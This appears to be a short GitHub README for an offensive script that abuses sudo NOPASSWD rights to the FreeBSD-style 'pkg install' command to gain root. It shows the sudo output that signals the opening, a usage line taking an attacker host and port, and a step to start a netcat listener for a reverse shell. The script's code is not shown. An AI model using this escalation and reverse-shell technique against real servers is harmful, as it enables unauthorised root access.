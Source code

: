 # pkg_privilege_escalation_script
shellscript for pkg_privilege_escalation

If You getting users shell in any server,

and pressed "sudo -l" then...
    
    (ALL) NOPASSWD: /usr/sbin/pkg update
    
    (ALL) NOPASSWD: /usr/sbin/pkg install *

if get situation like a above

then exploitable in this script,,, maybe


usage:
    
    ./pkg_priv_esc.sh <lhost> <lport>
    

 
 Don't forget "chmod +x" before execute 

And open other terminal and listenning netcat for reverse_shell
